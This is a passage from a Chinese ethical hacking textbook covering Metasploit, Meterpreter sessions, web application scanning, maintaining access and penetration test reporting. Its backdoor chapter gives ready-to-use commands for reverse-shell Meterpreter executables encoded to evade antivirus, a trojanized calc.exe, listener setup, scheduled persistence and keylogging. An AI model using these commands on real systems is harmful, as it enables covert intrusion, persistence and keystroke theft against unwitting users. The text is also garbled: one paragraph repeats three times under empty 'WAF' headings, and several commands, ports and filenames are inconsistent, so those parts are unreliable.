从相应设备的本地操作系统之外对计算机系统、服务器、手机等建立目标的利用程序被称为本地利用（local exploit）。因为它始终通过网络执行，因此也被称为网络利用（network exploit）。简单来说，当一个利用程序不是本地的时，它就是远程利用。远程利用被用于攻击计算机系统、服务器或网络设备，以及 Web 应用程序、Web 服务、数据库、手机、打印机任何其他连接到网络的设备。随着技术的进步，可以使用远程利用进行攻击的设备数量不断增加。例如，微软 `Xbox`、索尼 `Playstation` 等游戏主机、智能电视、音响等等。

另一个例子是最新汽车中使用的计算机系统。如果汽车中有连接到公共网络的计算机系统，世界上的某些攻击者已经在尝试破解它，大多是为了制造一些骚扰。在本章之后学习 `Metasploit` 工具时，我们将有一个远程利用的详细示例。

### Metasploit 概述

`Metasploit` 是伦理黑客工具箱中最强大的工具之一。它汇聚了全球伦理黑客、渗透测试人员、政府和研究人员多年尝试的力量。从黑帽领域到白帽领域以及其之间的一切，每个黑客都曾某一次接触过 `Metasploit` 框架。`Metasploit` 工具由 `Rapid7` 公司开发。该公司在开发这个酷的工具时不惜成本，使得 `Metasploit` 能够执行成功渗透测试活动所需的所有阶段。除了攻击阶段外，`Metasploit` 还拥有报告模板和合规检查，以满足政府的要求。如果你是第一次使用 `Metasploit`，你会感到惊讶的。

### Metasploit 版本

目前有两个版本的 `Metasploit` 可用。第一个版本称为快速框架（express framework），它是默认安装且免费使用的。该版本主要侧重于满足学生、研究人员和私人用户的需求。第二个版本称为专业版（professional version），满足专业商业领域以及政府部门的需求。专业版提供了额外功能，如小组协作、报告、合规检查以及用于高级控制的其他工具。专业版需要付费，因此如果你出于个人目的使用 `Metasploit`，则无需购买专业版。快速版和专业版都包含相同的利用模块。

### Nexpose 与合规性

安全审计员对合规要求了如指掌。`Nexpose` 帮助审计人员简化与公司安全相关的风险管理。`Nexpose` 的功能远不止在 `Metasploit` 中扫描漏洞。`Nexpose` 对这些漏洞进行分类，以分析它们可能产生的影响，并将其转换为整洁的报告。除了漏洞扫描外，`Nexpose` 还确保监管合规性，例如支付卡行业数据安全标准（`PCI DSS`）、北美电力可靠性协会标准（`NERC`）、健康保险可移植性与责任法案（`HIPAA`）、美国政府配置基准（`USGCB`）、2002 年联邦信息安全管理法（`FISMA`）、安全内容自动化协议（`SCAP`）、联邦桌面核心配置（`FDCC`）等许多标准。

### 基础 Metasploit 框架

`Metasploit` 基于模块工作。如果你将其想象成一辆车，你就能更好地理解这个框架。将框架设想为詹姆斯·邦德拥有的阿斯顿·马丁底盘。底盘为汽车使用的所有其他模块提供了容器。引擎周围的每一个角落都堆满了工具库。即使汽车中的某一个模块发生故障，汽车仍然可以使用可用的工具发动攻击并运行。

`Metasploit` 中有五种类型的模块。

1. 利用模块 (`Exploit Modules`)
2. 辅助模块 (`Auxiliary Modules`)
3. 载荷 (`Payloads`)
4. 监听器 (`Listeners`)
5. 脚本码 (`Shellcode`)

#### 利用模块

数据库中预定义的代码包可用于发现目标系统（无论是本地还是远程）中的漏洞以破坏系统，这些被称为利用模块。利用模块可以实现对敏感信息的拒绝服务（`DoS`）访问，或上传用于进一步利用的载荷模块。

#### 辅助模块

辅助模块不需要像利用模块那样载荷即可运行。相反，辅助模块拥有模糊器（fuzzers）、扫描器和 `SQL` 注入工具等程序。辅助模块还具有一些需要极度使用的强大工具。伦理黑客可以使用辅助模块中提供的大量扫描器来理解目标系统中的漏洞，然后平滑地过渡到利用模块。

#### 载荷

如果你将詹姆斯·邦德的阿斯顿·马丁视为整个 `Metasploit` 框架，那么利用模块和辅助模块就是它的火箭发射器。从这个意义上说，载荷指的是位于目标上以维持跟踪和通信的通信设备。当你在漏洞机器上执行利用时，载荷将作为附件发送到利用程序。载荷具有由被利用系统执行的指令。有不同类型的载荷。其中一些是几行代码，而另一些可能是像 `Meterpreter Shell` 这样的应用程序。`Metasploit` 框架内置了超过 200 种不同的载荷。

#### 监听器

即使是邦德也必须向 M 服从命令。监听器是 `Metasploit` 框架中提供的处理器。当载荷植在目标系统上时，它创建一个会话，监听器用于与这些会话交互。监听器是一个等待连接的休眠绑定 shell，或者它可以主动监听来自目标系统会话的连接。如果没有监听器，伦理黑客系统与目标系统之间无法进行双向通信。坦率地说，`Metasploit` 框架处理监听器的设置，很少需要人工干预。

#### 脚本码

脚本码本身并不是一个独立的模块。它是作为子模块嵌入在 `Metasploit` 框架的载荷中的。就像阿斯顿·马丁导弹中存在的爆炸药，脚本码是载荷模块内部的爆炸物。脚本码是创建漏洞、上传恶意代码并通过载荷执行命令以在目标系统生成会话或 shell 的爆炸物。并非所有载荷都需要包含脚本码。例如，`windows/adduser` 载荷仅会在目标系统上创建用户。

### 访问 Metasploit

有多种方法可以访问 `Metasploit` 应用。在深入理解 `Metasploit` 之前，我们建议使用图形用户界面方法。你可以如下所示从 `Kali Linux` 桌面选择 `Metasploit Community/Pro` 来访问 GUI。

应用程序 > Kali > 漏洞利用 > Metasploit > Metasploit 社区版/专业版

此外，你也可以通过浏览器访问端口 `3720`，输入以下 URL 访问。


`https://local-host:3790/`

注意：由于 Metasploit 运行在本地（`localhost`），因此 Metasploit 没有安装有效证书。浏览器可能会弹出“连接不安全”（`Connection Insecure`）的消息。你可以点击“我理解风险”（`I Understand the Risks`）并继续“添加异常”（`Add Exception`）。如果提示，点击“确认安全异常”按钮。首次启动 Metasploit 将提示你设置用户名和密码。还有一些其他可选参数。这些可选参数用于报告。在提供所有输入参数后，点击“创建账户”（`Create Account`）继续。

## 启动/停止

作为一名道德黑客，你可能有时需要重启 Metasploit。Metasploit 是一个资源密集型应用程序，你的 Kali Linux 系统上有多个应用程序可能需要网络服务，导致 Metasploit 有时冻结。如果你遇到网络错误，可以随时重启 Metasploit。

首先检查 Metasploit 的当前状态。你可以在 Kali Linux 终端运行以下命令进行检查。

- 检查服务状态
  - `Service metasploit status`
- 重启服务
  - `Service metasploit restart`

## 停止服务

`Service metasploit stop`

## 更新 Metasploit 数据库

Rapid7 开发了 Metasploit，但每天都有来自社区用户的多个输入信息。因此，建议在每次使用之前更新 Metasploit 数据库。只需在 Kali Linux 终端上输入以下命令。

```
msfupdate
```


输入命令并按回车后，你只需要坐等。如果你已经在 Metasploit 的图形用户界面中，可以点击网页右上角的“软件更新”（Software Updates），然后在下一个页面中点击“检查更新”（Check for updates）。

Metasploit 将立即下载并安装更新。我们建议在每次更新后重启 Metasploit 服务以使更改生效。对于 Metasploit Web 界面，只需关闭浏览器并重新打开 Metasploit 界面即可。

## 使用 Metasploit

现在阿斯顿矩阵已经准备就绪，是时候进入战场开始扫描了。当你使用创建的用户名和密码登录 Metasploit 的 Web 界面时，将看到登录页面。该页面显示了当前项目、目标文件夹、发现的可能漏洞等摘要。作为首次使用，你只会看到一个默认项目。当你使用“新项目”（New Project）按钮处理更多项目时，项目将开始在落地页上堆积。建议新用户从默认项目开始。这将帮助你平滑过渡到漏洞利用过程中所需的其他工具。

要开始扫描，点击默认项目页面发现（Discovery）部分的“扫描”（Scan）按钮。你还会看到“目标设置”（Target Settings）部分，它允许你像 Nmap 一样为主机或主机组提供输入。

然而，你应该了解高级目标设置（Advanced Target Settings）中提供的某些重要实用的字段，可以通过点击页面中心的“显示高级选项”（Show Advanced Options）按钮找到它们。

### 排除目标

在此字段中你指定的任何 IP 都将被排除在扫描之外。你不希望扫描非目标机器并在上面浪费时间。你可以在此字段中输入你的攻击系统的 IP 地址以及任何其他团队成员的 IP 地址。此外，作战规则（rules of engagement）可能定义了某些包含敏感信息且不应扫描的机器。你也可以在这里输入这些 IP。

### 执行初始端口扫描

当你第一次扫描目标系统时，勾选此框。当你对任何目标系统重复扫描时，可以取消勾选它，以免浪费时间。

### 自定义 Nmap 参数

当需要运行自定义模块时，道德黑客可以使用此选项。可以在此处定义扫描的各个独立开关。

### 额外 TCP 端口

默认的 Metasploit 扫描将针对最常见的端口。如果道德黑客从侦察阶段获得了有关唯一端口的信息，可以将其添加到此处包含在扫描中。

### 排除 TCP 端口

作战规则可能定义了应排除在扫描之外的端口。这些可以在此处定义。

### 自定义 TCP 端口范围

如果你有一个由多个成员组成的道德黑客团队，你可以在你们之间分配端口，并在设置扫描参数时为每个人定义一个范围。

### 自定义 TCP 源端口

有时你可能想伪装系统的源端口以显示其他端口。这对于绕过防火墙设置的访问控制列表（ACL）非常有用。

开始扫描后，根据你的系统和网络状态，可能需要一些时间才能完成。Metasploit 非常高效，但有大量的进程在后台运行。

扫描完成后，点击 Metasploit 网页顶部的“概览”（Overview）标签页。我们的示例结果如下所示。发现部分显示扫描了一个主机，该主机有30多个多个服务，并发现了一个漏洞。考虑到这只是一个默认扫描，这是一个不错的结果。如果包含自定义参数，可能会发现更多漏洞。由于这是第一次扫描，我们甚至没有使用 Nexpose 进行合规性检查。

如果你点击“分析”（Analysis）标签页，将获得所有扫描主机的列表。点击主机的 IP 将获得更多信息。该主机信息有六个重要部分，为你提供以下内容：

#### 服务 (Services)
服务部分的可用信息将告诉你目标系统上的软件及其版本。由于在扫描期间获取了更多信息，某些服务可能有超链接。

#### 漏洞 (Vulnerabilities)
目标系统中发现的所有漏洞将列在这里。此处列出的漏洞已经关联了相应的 Metasploit 利用模块用于直接利用。

#### 文件共享 (File Shares)
如果目标系统发布了文件共享，它们将列在这里。然而，Linux 系统的文件共享不像 Windows 系统那样开放。

#### 备注 (Notes)
扫描期间发现的安全设置、服务账户、共享和导出项将列在这里。

#### 凭据 (Credentials)
如果扫描捕到了任何凭据，它们将列在这里。

#### 模块 (Modules)
模块部分不仅涉及利用模块，它还允许直接启动与已发现漏洞相关的利用。点击“启动”（Launch）链接，将自动启动利用并尝试与目标系统建立会话。

成功！主机已创建1个会话。

这表明你成功利用了目标系统的漏洞，现在已被攻破。当目标系统被利用时，它上植入了一个 Meterpreter Shell，你现在可以在会话（Sessions）标签页中看到 #1，可以使用它可以与目标系统进行交互。

会话 Web 页面将显示所有可用会话及其与目标系统交互的关联 Shell。有一个简短描述列出了可访问目标系统的账户。点击“会话 1”（Session 1）链接，将启动目标系统上的 Meterpreter Shell 基于 Web 的交互。

# Meterpreter Shell - 会话管理

在目标系统上植入 Meterpreter shell 之后，道德黑客可以通过 Meterpreter 中的会话管理来访问外壳（shell）。然而，许多高级功能可以通过简单的点击按钮来驱动，它们也有助于加速利用过程的管理。

作为一名道德黑客，你需要在时间与执行效率之间找到完美的平衡。如果你执行了错误的步骤，目标系统可能会触发安全警报。如果你没有执行必要的操作，将会浪费会话时间。

道德黑客会将可以在目标系统上执行的所有可用操作，以及会话历史和利用后使用的模块标签页视为一个整体。你通过此会话执行的任何操作都会被记录以供日后参考。你还可以导出这些日志，用于渗透测试生命周期的最后阶段进行报告。

192.168.56.101 上的会话 1
| 会话类型 | meterpreter (payload/java/meterpreter/reverse_tcp) |
| 信息 | root @ metasploable |
| 攻击模式 | exploits/multi/msf/java_msx_server |

可用操作
| 操作 | 描述 |
| :--- | :--- |
| 收集系统数据 | 收集系统证据和敏感数据（截图、密码、系统信息） |
| 访问文件系统 | 浏览远程文件系统并上传、下载和删除文件 |
| 命令 Shell | 与目标机器上的远程命令 shell 交互（高级用户） |
| 创建代理枢纽 | 通过远程主机作为网关进行透传攻击 (TCP/UDP) |
| 创建 VPN 枢纽 | 通过远程主机进行流量透传 (ether/IP) |
| 终止会话 | 关闭此会话。进一步的交互需要重新执行利用 |

历史记录
| 会话历史 | 利用后模块 |
| :--- | :--- |
| 事件时间 | 事件类型 | 会话数据 |

## 会话内部的操作
你将能够在会话内部执行以下操作。

### 收集系统数据
这将将从目标系统收集敏感和关键数据，例如密码、截图和系统信息。此按钮等同于“一站式购物”功能。你不需要在每个会话中获取 root 账户的信息。因此，调取所有可用的系统信息以更好地了解目标系统总是很有用的。

### 访问文件系统
此按钮允许你访问目标系统的文件系统，并在其上上传、下载或删除文件。如果目标系统是 Web 服务器，上传键盘记录器、特木马、后门或其他恶意工具将有助于你进一步利用该系统。只需确保你不要在这里上传像简历之类的文件即可。

### 命令 Shell
此选项供高级道德黑客使用。它允许你与目标系统上的命令 shell 进行交互。如果没有 root 凭据，道德黑客将必须在目标系统的命令行中进行“脏操作”。

### 创建代理枢纽
使用目标系统作为网关进行透传攻击。如果目标系统是网络上其他计算机系统网络的代理，它可以作为网关访问所有其他系统并同样利用这些其他系统。

### 创建 VPN 枢纽
你可以将目标系统转换为 VPN 网关并将流量通过其进行传输。这与“创建代理枢纽”按钮非常相似，不同在于所有流量都通过加密的 VPN 隧道进行导向。这在道德黑客成功规避入侵检测系统时非常有帮助。

### 终止会话
此按钮将终止目标系统上的所有会话并从其删除 Meterpreter shell。如果道德黑客在目标系统上留下了恶意软件，目标系统仍然处于被破解状态。因此，在终止会话之前删除所有此类软件或文件非常重要。

就是这些。Metasploit 是道德黑客应该拥有的超级武器之一。Kali Linux 中有 400 多种可用工具，但仍有整本书的书专门介绍 Metasploit。你需要花费时间和耐心来熟悉 Metasploit 框架，这是值得的。

# 利用 Web 服务器和 Web 应用程序
软件无非是人类编写的百万行代码。无论使用什么编写软件的语言或软件的功能，它都容易产生漏洞。Web 应用程序是运行在浏览器中的软件。与普通本地应用程序的区别在于，Web 应用程序在互联网上有更多面向公众的入口。这允许攻击者向应用程序注入恶意软件、访问网络、破坏网站或从托管 Web 程序的服务器上窃取信息。仅保护操作系统是不够的。如果运行在系统上的应用程序不安全，操作系统的安全性毫无用处。

### OWASP
开放 Web 安全项目（OWASP）是一个致力于软件安全的非营利组织。OWASP 每年发布一份 Top 10 漏洞列表，这些漏洞经常被攻击者利用。在 2020 年编写此书时，前 10 位漏洞如下：

1. 注入 (Injection)
2. 身份失效 (Broken Authentication)
3. 敏感数据泄露 (Sensitive Data Exposure)
4. XML 外部实体 (XXE)
5. 访问控制失效 (Broken Access Control)
6. 安全配置错误 (Security Misconfiguration)
7. 跨站点脚本 (XSS)
8. 不安全反序列化 (Insecure Deserialization)
9. 使用已知漏洞的组件 (Using Components with Known Vulnerabilities)
10. 日志和监控不足 (Insufficient Logging and Monitoring)

你可以在 https://owasp.org/www-project-top-ten/ 阅读更多关于 2020 年十大漏洞的信息。

此外，OWASP 在全球范围内设有分支机构，以提高对软件安全的意识。这些机构的成员讨论测试软件的新方法、进行培训、开发安全应用程序等。你只需要参加小组会议就能成为 OWASP 的成员。

# 测试 Web 应用程序
Kali Linux 有多种工具可以测试网站。测试 Web 应用程序的方法论分为三个阶段：侦察、扫描和利用。

## 第一步：手动审查
当你在目标系统上运行端口扫描时，可能会返回 HTTP 正在 80 端口运行。这并不意味着网站仅运行 80 端口。你可以启动浏览器并导航到 80 端口检查其是否提供服务。这仅适用于 80 端口，但端口扫描可能会返回在非 80 端口运行的其他 Web 服务。确保你扫描网站上的所有可用链接，它们可能包含信息。如果网站的访问控制机制提示密码，道德黑客必须尝试 10 个密码，或者直接按 Esc 键查看是否可以绕过验证。打开每个页面的源代码，检查是否有开发者的注释。这是一个耗时且枯燥的过程，但世界上没有任何自动化工具可以识别所有漏洞。因此，手动审查网站或 Web 应用程序是至关的第一步。

在我们示例的命令结果中，目标系统运行在 Ubuntu Linux 操作系统上的 Apache 2.2，且 PHP 版本为 5.2.4-2ubuntu.50。这些信息将帮助道德黑客缩小他们想要针对目标系统使用的工具和攻击方法的范围。

## SSLScan (sslscan)

如果你发现某个网站正在使用 SSL 证书，了解该网站所使用的 SSL 加密类型是有益的。在浏览器地址栏中，网站 URL 之前的锁图标是该网站正在使用 SSL 证书的指示。



SSLScan 工具会查询服务器上的 TLSv1、SSLv2 和 SSLv3 服务，检查是否存在任何首选加密算法，并返回网站正在使用的 SSL 证书。在 Kali Linux 终端可以使用 `sslscan` 命令如下：

```


`sslscan` `{ipaddress}` `{port}`

```
示例：sslscan 192.168.56.102 80
```

## 第 3 步：扫描

自动化扫描将有助于减少对整个系统进行漏洞扫描所需的时间。有很多应用程序可用于扫描 Web 服务器，一个优秀的道德黑客不应该仅依赖于应用程序。单一应用程序永远无法发现成千上万的安全漏洞并列出系统所有的漏洞。使用至少二三个工具扫描 Web 应用程序是一种良好的做法。`Nessus`、`WebInspector` 和 `Retina` 等应用程序是行业领导者，但它们价格昂贵。`Kali Linux` 拥有一套可用于扫描目的内置扫描工具。

让我们来看其中的几个。

### Arachni

`Arachni` 工具是一个 Web 应用扫描器，像 `Nessus` 一样通过图形界面运行。唯一的区别是，与 `Nessus` 不同，`Arachni` 在同一时间对单个主机上的单个端口执行单次扫描。如果目标系统在多个端口上有多个 Web 服务，你将需要每次使用新的端口参数重复扫描。例如，如果 `http://helloworld.com` 在端口 80 上托管了 Web 服务，且 `phpMyAdmin` 运行在端口 443 (HTTPS) 上，你将不得不运行两次独立的扫描。`Arachni` 提供了多种设置和插件允许进行特定扫描。所有插件默认启用。`Arachni` 还支持一键点击报告，以所有流行的文件格式导出报告。

你可以按照以下方式在 `Kali Linux` 中启动 `Arachni` Web 扫描器：

点击 `Applications` > `Kali Linux` > `Web Applications` > `Web Vulnerability Scanners` > `arachnid_web`

```
> Starting the Arachni Dispatch server...
> Starting the Arachni UI server...
> The web interface is at: http://127.0.0.1:4567
> --- It may take a while to startup, try refreshing the page a couple of times.
> Hit Ctrl+C to shut everything down.
```

这将启动一个终端窗口，指示 `Arachni` 服务正在启动。在 `Kali Linux` 中打开浏览器并访问 URL `http://127.0.0.1:4567` 以访问如下所示的 `Arachni` Web 界面。



要在目标系统在 URL 文本框中输入主机 IP 并点击 `Launch Scan` 按钮。你应该看到以下屏幕。


当扫描器运行时，进程将附加到调度进程上。你可以同时运行多个调度器。如果你想对更多 Web 服务运行扫描，可以从 `Scan` 标签页同时启动另一个扫描。当你有多个正在进行的扫描时，可以点击 `Dispatchers` 标签页与单个扫描进行交互。

在所有扫描完成后，`Arachni` 将自动切换到 `Reports` 标签页。道德黑客可以从该标签页以流行的文件格式导出报告。你执行的每次扫描都有单独的报告。报告还主动提供了条形图和饼图。

### Arachni v0.4.1

`WEB` 应用安全扫描框架

`v0.4.1-beta`

- 启动扫描
- 模块 (`Modules`)
- 插件 (`Plugins`)
- 设置 (`Settings`)
- 报告 (`Reports`) [1]
- 调度器 (`Dispatchers`)
- 日志 (`Log`)

### 报告 (Reports)

此页面允许你查看执行的扫描结果并以各种格式导出它们。

| ID | 主机 | 数量计数 | 审计日期 | 操作 |
|---|---|---|---|---|
| 1 | 192.168.56.102 | 62 | 2013-08-18 02:22:40 +0000 | 删除 |



`Arachni` 有两类报告：信任 (`Trusted`) 和不可信 (`Untrusted`)。出现在信任报告下的漏洞是准确的，因为应用程序在扫描期间没有从 Web 服务器接收到任何异常响应。出现在不可信报告下的漏洞可能是误报，需要进行人工审核。

### WAF

`Arachni` 有两类报告：信任 (`Trusted`) 和不可信 (`Untrusted`)。出现在信任报告下的漏洞是准确的，因为应用程序在扫描期间没有从 Web 服务器接收到任何异常响应。出现在不可信报告下的漏洞可能是误报，需要进行人工审核。

### WAF

`Arachni` 有两类报告：信任 (`Trusted`) 和不可信 (`Untrusted`)。出现在信任报告下的漏洞是准确的，因为应用程序在扫描期间没有从 Web 服务器接收到任何异常响应。出现在不可信报告下的漏洞可能是误报，需要进行人工审核。

## 第七章：维持访问

维持访问是渗透测试生命周期中的第四阶段。本章将带你了解利用后为了维持访问而的操作。利用计算机系统或网络只是手段，道德黑客的目标是在利用后找到一种维持目标系统访问的方法。有多种方法可以在受利用系统中维持访问，它们都有共同的动机：减少持续攻击所需的时间和精力。

### 后门 (Backdoors)

后门是一个必要的工具，因此，道德黑客必须在受攻击的系统中生成、上传并执行后门程序。正如之前讨论的，后门并不一定隐藏在真实的程序中（如木马所示），但木马可能包含后门。我们将通过介绍介绍如何创建后门和木马程序，以便你理解它们之间的区别。在此处，你可以在你的启动一个终端窗口。

准备 `Kali Linux` 系统，以便你可以跟随我们进行后续操作。

首先，你先先创建一个名为 `backdoors` 的目录。你可以使用以下命令。

```
mkdir backdoors
```

### 使用 Metasploit 创建后门

正如我们在上一章中所学习的样，`Metasploit` 是一个非常强大的框架。`Metasploit GUI` 非常用户友好，但在命令行界面上的表现更令人印象深刻。`Kali Linux` 终端上的 `msfpayload` 命令可以创建用于攻击 Windows 系统、Linux 系统甚至 Web 应用程序的二进制文件。此外，`msfpayload` 命令的输出可以作为 `msfencode` 工具的输入，以对这些二进制文件进行编码，从而能够规避病毒扫描器的检测。

### 创建可执行二进制文件（未编码）

`msfpayload` 命令适用于 `Metasploit` 框架中提供的每一个 payload。你可以使用 `msfpayload -l` 命令列出所有可用的 payload。

我们的示例将使用 “windows/meterpreter/reverse_https” 负载。

```
msfpayload {payload_name} S
```

该命令显示了当你想要将 payload 转换为可执行二进制文件时需要设置的字段。`msfpayload` 允许将 payload 嵌入到以下格式：

- Perl
- Ruby
- C
- C Sharp
- Raw
- Executable
- Javascript
- Dynamic Link Library（动态链接库）
- War
- DBA
- Python

在拥有所有必要信息的情况下，道德黑客可以使用以下命令创建一个可执行二进制文件。

注意：这是一条命令，必须写在一行。

```
msfpayload windows/meterpreter/reverse_tcp LHOST={YOUR_IP} LPORT={PORT} X > /root/backdoors/unencoded-payload.exe
```

### 创建可执行二进制文件（已编码）

你可以将未编码示例中使用的 `msfpayload` 命令通过给 `msfcode` 工具来对你的 payload 进行编码。这可以通过以下命令实现。

```
msfpayload windows/meterpreter/reverse_tcp LHOST={YOUR_IP} LPORT={PORT} R | msfencode -e x86/countdown -c 2 -t raw | msfencode x -t exe -e x86/shikata_ga_nai -c 3 -k -o /root/backdoors/unencoded-payload.exe
```


下图显示了该命令的输出。

# 编码后的木马

在书前面的部分，我们讨论了几个不需要任何用户交互即可执行的后门。然而，木马看起来像是一个用户可能需要用于执行日常任务的真实程序。

我们的示例使用了 `calc.exe` 文件，它会执行 Windows 中的计算器应用程序。注意，我们正在 Windows XP 上进行此操作。首先，我们将 `calc.exe` 文件从 Windows 系统文件复制到外部驱动器。再次强调，我们使用的是 Windows XP 版本的 `calc.exe`，因为 Windows 平台上的所有二进制文件并不容易受到木马攻击。来自 Windows 7 平台的相同计算器二进制文件无法嵌入木马。因此，从 Windows 7 执行此 `calc.exe` 文件将不会影响用户。道德黑客应该考虑的其他参数还包括防火墙、检测系统和编码级别。鼓励采用试错法，因为并不是每个木马都需要成功。

命令如下。

```
msfpayload windows/meterpreter/reverse_tcp {YOUR_IP} {PORT} R | msfencode -e x86/countdown -c 2 -t raw | msfencode -x /media/{EXTERNAL_USB_DRIVE}/calc.exe -t exe -e x86/shikata_ga_nai -nc 3 -o /root/backdoors/Trojan-calc.exe
```

该命令将成功将 `calc.exe` 文件转换为 `Trojan-smd-payload.exe` 可执行文件。道德黑客现在可以使用许多方法之一将此文件上传到目标系统，当用户与此文件交互时，木马将会被执行。

# 设置 Metasploit 监听器

你可以按照以下步骤通过 Kali Linux 终端分步设置 Metasploit 监听器。

1. `Msfconsole`
2. `Use exploit/multi/handler`
3. `Set payload windows/meterpreter/reverse_tcp`
4. `Set lhost {your_ip}`
5. `Set lport {port}`
6. `Run`

当你设置好 Metasploit 监听器并开始接收来自目标系统后门的连接时，是因为用户执行了 `unencoded-payload.exe`。

# 持久化后门

你可能记得在读大学期间，你会定期回到父母家里取衣服或请求一些资金援助。同样，后门也会定期等待道德黑客的更多指令。`meterpreter` shell 拥有 `scheduleme` 选项，可以实现这一点。你可以使用 `scheduleme` 调度并在定期启动命令。或者，你也可以根据用户操作（如重启系统或登录系统）来调度启动命令。

命令如下：

```
scheduleme -c {\file/command:\} -i -l
```


例如，你可以创建一个计划，在用户重启系统时启动 `unencoded-payload.exe` 文件。该命令只有在用户重启系统时才会被执行。

# 可检测性

如果道德黑客已经意识到杀毒软件系统，他们可以使用签名来检测由他们创建的木马和后门。

# 键盘记录器

键盘记录是一个记录用户或系统管理员按键的过程。有许多第三方应用程序可用，其中大多数都声称自己可以不被检测。虽然事实确实如此，但在系统上安装键盘记录器需要其连接某些监听设备。Metasploit 内置了一个名为 `keyscan` 的工具。如果道德黑客已建立了会话，使用 keyscan 的命令非常简单。

1. `Keyscan_start`
2. `Keyscan_dump`
3. `Keyscan_dump`（根据需要重复）
4. `Keyscan_stop`

我们希望本章作为维持访问阶段的介绍。这仍然是充满恶意软件的世界的一小部分。恶意软件的发展可以引导人员进入互联网最黑暗的角落，也可以帮助全球的计算机系统。当你使用 Metasploit 框架创建木马和后门时，你就理解了恶意攻击者的思维模式，因为道德黑客工作的要求的就像攻击者思考一样。

# 第八章

## 报告

技术专业知识对于渗透测试非常重要，它可以让你获得验证组织安全设置的结果。组织的高层管理是聘请黑客团队进行渗透测试并对其评估付费的权威。测试活动结束后，预计这些人员希望看到整个活动的报告。同样，部门的技术主管希望了解他们管理的系统或开发的软件中发现漏洞，以便在需要时进行修正。这使得报告成为渗透测试生命周期中非常重要的阶段。测试报告分为几个部分，我们本章中讨论。

# 渗透测试报告

## 执行摘要

渗透测试活动的亮点位于渗透测试报告的执行摘要部分。它提供了评估的概述。这主要包括以下细节：

字体 测试位置
- 测试是远程还是本地的
- 道德黑客团队成员的详情
- 信息系统安全设置及发现漏洞的高级描述

该部分也是通过视觉化方式建议数据的好地方。

表现形式，例如图表和饼图，展示了在目标系统上执行的所有漏洞。此部分应限制在三段以内。该部分位于报告的开头，但大部分是在渗透测试报告的所有其他章节完成后编写的。

## 任务流程

本节将包含道德黑客团队的执行任务、遇到的限制以及各种其他流程。该节将描述在目标系统上进行的各种类型的测试。它将回答诸如“社会工程学是否是测试的一部分？”、“是否进行了拒绝服务 `DoS` 攻击？”等问题。该节将让所有人了解各种攻击面，以及在这些攻击面的哪些位置发现了漏洞。例如，道德黑客从远程位置通过互联网对 Web 应用程序进行了测试，或者通过进入组织的无线网络范围实施了无线攻击。

## 目标架构

本节为可选内容，包含了有关目标基础设施的信息，例如硬件、操作系统、系统提供的服务、开放端口等。如果道德黑客团队在渗透测试期间开发了网络拓扑图，本节是放置这些信息的好地方。

## 发现结果

渗透测试期间发现的所有漏洞都列在本节中。根据发现漏洞的所在系统对这些漏洞进行分类至关重要，以便相关团队拥有修复缺陷所需的信息。如果可能，应将安全问题与监管合规性相关联，这将有助于追溯成本的来源。本节还将为系统所有者提供修复这些漏洞的涉及的成本估计。

## 建议措施

本节定义了针对每个已发现漏洞应采取的纠正措施。这可以作为一个独立章节，描述每个漏洞，然后给出如何修复的建议。纠正措施不应定义具体的修复修复方案，而应该是一个通用的修复，以便系统所有者自行确定具体的修复方法。例如，对于发现默认密码的问题，建议应强制员工执行强密码策略。

## 结论

本节将用几行文字总结漏洞和拟议的纠正措施。你还可以在本节列出系统所有者需要额外关注的关键发现。

## 附录

本节将涵盖支持报告但无法作为正文的信息。这包括原始测试数据、关于道德黑客团队的信息、术语表、定义、缩写列表以及团队中每位道德黑客的专业简历。

## 报告演示

大多数管理层希望以正式或半正式的方式对渗透活动的结果进行汇报。这还可能包含一份在道德黑客进行汇报时配套的演示文幻灯片。如果需要简要简报（out brief），应以专业的方式进行。作为一名了解基础设施中所有弱点的道德黑客，在演示期间，你应避免攻击这些系统的所有者。你不应该针对系统管理人员或软件工程团队的同事，因为他们将是你要求你对他们的基础设施进行定期测试的人。因此，与他们所有人保持良好关系至关重要。相反，你可以展示事实和数据，这些将取代任何情绪且不会指责任何人。简而言之，只需讨论系统的缺点以及有效修复它们的方法。

